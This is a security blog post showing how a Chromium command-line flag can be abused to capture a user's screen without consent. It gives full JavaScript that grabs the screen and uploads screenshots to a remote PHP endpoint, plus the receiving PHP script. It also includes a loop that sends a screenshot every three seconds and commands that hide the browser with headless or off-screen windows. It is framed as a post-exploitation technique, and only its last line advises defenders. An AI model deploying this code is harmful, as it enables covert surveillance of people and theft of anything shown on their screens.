





This blog explores a Chromium command line flag and how it can be used to spy on a user by continuously taking screenshots of their screen<!-- end -->.

# Introduction

I've been exploring Chromimum command-line options for a while now to find interesting use cases. A few examples are shown below:

* [Chromium Download Method 1](https://x.com/mrd0x/status/1478234484881436672)

* [Chromium Download Method 2](https://x.com/mrd0x/status/1478116126005641220)

* [Kiosk Mode Abuse](https://x.com/mrd0x/status/1488166237305778177)

* [Proxying Execution Via MSEdge.exe](https://lolbas-project.github.io/lolbas/Binaries/Msedge/#execute)

Now I'll be showing an interesting way of spying on a user's machine by continuousuly taking screenshots and uploading them to a remote server all via a simple command line argument.

# Screen Sharing

Browsers have a built-in feature for screen sharing, which most of us have probably used before. A web page can use the [getDisplayMedia](https://developer.mozilla.org/en-US/docs/Web/API/MediaDevices/getDisplayMedia) API to prompt the user to grant access to a screen, window or a specific tab to share. This results in a prompt appearing which asks you to choose the screen, window or tab to share. 




In order for the `getDisplayMedia` method to work and prompt the user for a selection, it must be called in response to a user gesture (e.g. a mouse click or key press) otherwise it will [throw an error](https://developer.mozilla.org/en-US/docs/Web/API/MediaDevices/getDisplayMedia#exceptions).

```
InvalidStateError DOMException: Thrown if the call to getDisplayMedia() was not made from code running due to a transient activation, such as an event handler. Or if the browser context is not fully active or does not focused. Or if the controller options has been already used in creating another MediaStream.
```

By requiring the user to first interact with the website and then explicitly select what they want to share, the browser ensures that users intend to share their screen, preventing websites from tricking them into doing so unknowingly.

# Automatic Screen Sharing

Luckily for us, Chromium browsers have the `--auto-select-desktop-capture-source` flag which allows you to automatically choose a specific screen or window for capture without requiring any user interaction. If we set this to flag to "Entire" it will auto-select the entire screen for sharing. As an example, the command below will launch Chrome and navigate to `example.com/screenshare.html`. If the website prompts the user to select which screen/window/tab to share, the browser will automatically select the entire screen.

```
chrome.exe --auto-select-desktop-capture-source=Entire https://example.com/screenshare.html
```

In cases where the user has more than one screen you would need to specify "Screen 1", "Screen 2", "Screen 3" etc.

```
# Pre-selects Screen 1
chrome.exe --auto-select-desktop-capture-source="Screen 1" https://example.com/screenshare.html
```

# Taking a Screenshot

With the previous flag in mind, we'll build a JavaScript function named `captureScreenshot` that requests the user to share their screen, then captures a single frame as a screenshot, converts it to a PNG image, and store it on our server. We'll run the `captureScreenshot` function as soon as the user lands on our website.

```html
<html>
<body>
    <script>
        async function captureScreenshot() {
            // Prompt access to the user's screen
            // --auto-select-desktop-capture-source=Entire will override the prompt and auto-select entire screen
            const stream = await navigator.mediaDevices.getDisplayMedia({
                video: {
                    cursor: "always"
                },
                audio: false
            });

            // Create a hidden <video> element
            // This is used to render the screen capture stream so we can extract a frame from it
            const video = document.createElement("video");
            video.srcObject = stream;
            await new Promise((resolve) => (video.onloadedmetadata = resolve));
            video.width = video.videoWidth;
            video.height = video.videoHeight;
            video.play();

            // Create a canvas for image creation
            // This is to draw the current frame from the video and convert it to an image
            const canvas = document.createElement("canvas");
            canvas.width = video.videoWidth;
            canvas.height = video.videoHeight;
            const context = canvas.getContext("2d");
            context.drawImage(video, 0, 0, canvas.width, canvas.height);

            // End screen sharing after capturing the frame
            stream.getTracks().forEach((track) => track.stop());

            // Create the image file with name screenshot-<timestamp>.png
            const timestamp = Date.now();
            const filename = `screenshot-${timestamp}.png`;
            const imageBase64 = canvas.toDataURL("image/png");

            // Send image b64 & filename to upload.php
            const response = await fetch("upload.php", {
                method: "POST",
                headers: {
                    "Content-Type": "application/json"
                },
                body: JSON.stringify({
                    image: imageBase64,
                    filename: filename
                })
            });
        }

        // run the function as soon the user lands on the page
        captureScreenshot();
    </script>
</body>
</html>
```

The script sends the image's Base64 blob and file name to `upload.php`. The PHP script will be responsible for handling the incoming image data and Base64-decoding it and saving it into `/var/www/screenshots`. Keep in mind that `upload.php` should have permission to write in that folder otherwise you will face an error.

```php
<?php
$data = json_decode(file_get_contents("php://input"), true);

// Extract img b64 data and filename
$imageBase64 = $data['image'];
$filename = $data['filename'];

// Remove "data:image/png;base64,"
$base64String = preg_replace('#^data:image/\w+;base64,#i', '', $imageBase64);
$imageData = base64_decode($base64String);

$uploadDir = '/var/www/screenshots'; // Change this to where ever you want to save the screenshot
$filePath = $uploadDir . '/' . $filename;

if (file_put_contents($filePath, $imageData)) {
    echo json_encode(['success' => true]);
} else {
    http_response_code(500);
    echo json_encode(['success' => false]);
}
?>
```

# Hiding The Browser Window

By default, when launching Chromium browsers via the command line, they open in a normal-sized window. We should hide the browser window to make this technique more practical. In this case we have two options:

**Option 1 (My preferred method as it's more discreet)** - Launches the browser in Headless mode using the `--headless` flag. This method is more stealthy because the user does not see the GUI component that states "example.com is sharing your screen". However, the downside is that this method produces a lower quality screenshot and I couldn't find a way to improve the quality through other command line options.

**Option 2 (Less discreet but higher quality screenshot)** - Launches the browser off the screen in a small window using the `--window-position=-10000,0 --window-size=1,1` flags. This makes the window virtually invisible for the user on the machine. This method has a downside which is that a small GUI stating "example.com is sharing your screen" appears for a split second. Also, to use this method you would need to kill the existing browser process, again making it less practical.

## Headless Demo

Running `[msedge.exe|chrome.exe] --headless --auto-select-desktop-capture-source=Entire --window-size=1280,720 https://example.com/index.html` produces the image below. Ensure that you've replaced `example.com` with your domain and `index.html` should contain the `captureScreenshot` function.



If you need assistance with extracting text due to the lower quality image, ChatGPT 4o was able to extract the text with pretty good accuracy. 



## Small Window Demo

Running `[msedge.exe|chrome.exe] --auto-select-desktop-capture-source=Entire --window-position=-10000,0 --window-size=1,1 https://example.com/index.html` produces the image below. Again, ensure that you've replaced `example.com` with your domain and `index.html` should contain the `captureScreenshot` function.



# Continuous Screenshots

While a single screenshot is OK, we want to continuously spy on the user's activity. To achieve this, we can enhance the `captureScreenshot` function by removing `stream.getTracks().forEach((track) => track.stop())`, which stops the media stream. After that, we can set up an interval timer to repeatedly create a canvas from the video stream and send it to `upload.php` every few seconds (in the example below, every 3 seconds).

```html
<html>
<body>
    <script>
        async function captureScreenshot() {
            const stream = await navigator.mediaDevices.getDisplayMedia({
                video: {
                    cursor: "always"
                },
                audio: false
            });

            const video = document.createElement("video");
            video.srcObject = stream;
            await new Promise((resolve) => (video.onloadedmetadata = resolve));
            video.width = video.videoWidth;
            video.height = video.videoHeight;
            video.play();

            setInterval(async () => {
                const canvas = document.createElement("canvas");
                canvas.width = video.videoWidth;
                canvas.height = video.videoHeight;
                const context = canvas.getContext("2d");
                context.drawImage(video, 0, 0, canvas.width, canvas.height);

                const timestamp = Date.now();
                const filename = `screenshot-${timestamp}.png`;
                const imageBase64 = canvas.toDataURL("image/png");

                await fetch("upload.php", {
                    method: "POST",
                    headers: {
                        "Content-Type": "application/json"
                    },
                    body: JSON.stringify({
                        image: imageBase64,
                        filename: filename
                    })
                });
            }, 3000); // Every 3000ms (3 seconds)
        }

        captureScreenshot();
    </script>
</body>
</html>
```

## Demo

Run `[msedge.exe|chrome.exe] --headless --auto-select-desktop-capture-source=Entire --window-size=1280,720 https://example.com/index.html` again and watch the `/var/www/screenshots` folder continuously update with new screenshots.



# Final Thoughts

I really like this method due to its simplicity and the fact that the code performing the spying activity is hosted remotely. Attackers can use this technique during the post-exploitation phase to spy on a user's activity. Defenders should check for the usage of the `--auto-select-desktop-capture-source` flag with any Chromium browser, as I highly doubt a regular day-to-day user will be using it.